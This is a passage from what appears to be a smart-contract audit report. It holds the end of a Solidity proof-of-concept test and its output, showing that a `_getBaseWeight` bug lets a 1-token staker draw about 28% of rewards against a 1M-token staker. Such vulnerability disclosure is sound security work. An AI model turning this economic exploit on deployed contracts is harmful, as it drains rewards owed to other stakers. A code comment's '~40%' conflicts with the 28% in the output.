 ```solidity 
        emit log_named_uint("Whale stake", 1_000_000e18); // 1M tokens
        emit log_named_uint("Minnow capital commitment", 1); // 0.0001%
        emit log_named_uint("Minnow reward share", (minnowRewards * 100) / (whaleRewards + minnowRewards)); // ~40%!
​
        // Prove the economic attack
        assertTrue(
            minnowRewards > (whaleRewards / 100),  // Minnow gets >1% of whale's rewards despite having 0.0001% of stake
            "Vulnerability: Minnow with 0.0001% stake gets disproportionate rewards"
        );
    }
  } 
```



### Proof of Concept Results

From the test output:
```solidity 
=== Initial Setup ===
  
=== 1. Voting Setup ===
Gauge global weight: 20010000000000000000
  
=== 2. Root Cause: _getBaseWeight Bug ===
Whale _getBaseWeight: 20010000000000000000  <========
Minnow _getBaseWeight: 20010000000000000000 <======== uses same for both of them
BUG: Both users get same base weight despite different stakes!
  
=== 3. Staking Phase ===
Whale stake amount: 1000000000000000000000000
Minnow stake amount: 1000000000000000000
  
=== 4. Reward Distribution Setup ===
Initial reward token balance: 100000000000000000000
Initial rewardRate: 165343915343915
Initial rewardPerTokenStored: 0
  
=== 5. Time Passage & Reward Calculation ===
New rewardPerTokenStored: 0
Whale user weight: 500250
Minnow user weight: 201300
BUG: Weights nearly equal despite 1M:1 stake difference!
Whale earned: 50
Minnow earned: 20
  
=== 6. Reward Claims ===
  
=== Economic Attack Vector ===
Minnow stake: 1000000000000000000 (1 token)
Whale stake: 1000000000000000000000000 (1M tokens)
Minnow capital commitment: 1 (0.0001%)
Minnow reward share: 28 (28%)
Under normal conditions:

Minnow (0.0001% stake) should receive ~0.0001% of rewards

Actually receives 28% of rewards

Represents a 280,000x increase over expected rewards
```

